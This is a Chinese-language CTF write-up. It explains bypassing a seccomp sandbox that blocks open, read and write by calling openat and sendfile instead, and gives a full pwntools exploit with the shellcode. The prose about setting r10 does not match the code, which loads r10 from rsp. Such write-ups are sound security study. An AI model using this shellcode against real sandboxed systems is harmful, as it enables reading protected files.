


xyctf



patch一下elf





禁用了open但是没有禁用openat,禁用了 read, write, readv, writev但是没有禁用sendfile，这样我们可以用openat打开文件，用sendfile将文件内容打印到标准输出

用Anti师傅给的网址看一下两个函数的构造	https://man7.org/linux/man-pages/man3/openat.3p.html


查了一下，openat的第一个参数fd可以填AT_FDCWD(-100)来使得我们可以使用相对路径

构造openat(-100, 'flag\x00\x00\x00', 0)	

一开始没有将第三个参数置零，打不通，参考了一下这篇博客中的写法

[https://surager.pub/_posts/2020-06-27-%E4%BB%8EDASCTF6%E6%9C%88%E8%B5%9B%E4%B8%AD%E5%AD%A6%E4%B9%A0setcontext%E7%BB%95%E8%BF%87seccomp/](https://surager.pub/_posts/2020-06-27-从DASCTF6月赛中学习setcontext绕过seccomp/)


然后就是sendfile(1, 3, 0, 40)

其中1和3是两个fd，0是in_fd文件要读入的内容距文件开始的偏移，40是要传输的字节

然后就是很坑的一个地方，这里的40是用的r10来传而不是rcx（64位传参顺序rdi, rsi, rdx, rcx, r8, r9），在动调的时候总是只能输出一个字符，发现r10总是1，我就尝试将r10改为1，然后一次成功


```python
from pwn import *

# io = process("./vuln")
io = remote("xyctf.top", )
# gdb.attach(io)
context(os="linux", arch="amd64")
# context(os="linux", arch="amd64", log_level="debug")

__NR_openat = 257
__NR_sendfile = 40

shellcode = '''
push -100
pop rdi
mov rax, %s
push rax
mov rsi, rsp
mov rdx, 0
push 257
pop rax
syscall

push 1
pop rdi
push 3
pop rsi
push 0
pop rdx
mov rax, 40
push rax
mov r10, rsp
push 40
pop rax
syscall
''' % hex(u64('./flag\x00\x00'))

io.sendline(asm(shellcode))

io.interactive()
```